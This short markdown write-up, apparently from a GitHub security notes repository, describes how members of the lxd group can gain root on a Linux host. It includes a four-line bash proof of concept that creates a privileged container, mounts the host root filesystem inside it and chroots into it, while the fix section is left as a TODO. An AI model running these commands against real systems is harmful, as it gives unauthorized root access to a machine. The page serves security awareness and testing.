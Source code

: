 # LXD Group

## Issue
Any user in the lxd group can elevate to root by creating a priviledged container and mounting the root file system inside the container.

Every user in the lxd group needs to be trusted. However this is a flawed security model, as even if the user is trustworth every single piece of code they run may not be and any application ran by that user has the ability to elevate itself to root without permission. 

## Example
POC modified from exploit-db script https://www.exploit-db.com/exploits/46978
```bash
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc giveMeRoot disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc chroot /mnt/root /bin/bash
```

## Fix
TODO: Add solutions

## Resources
[exploit-db](https://www.exploit-db.com/exploits/46978)

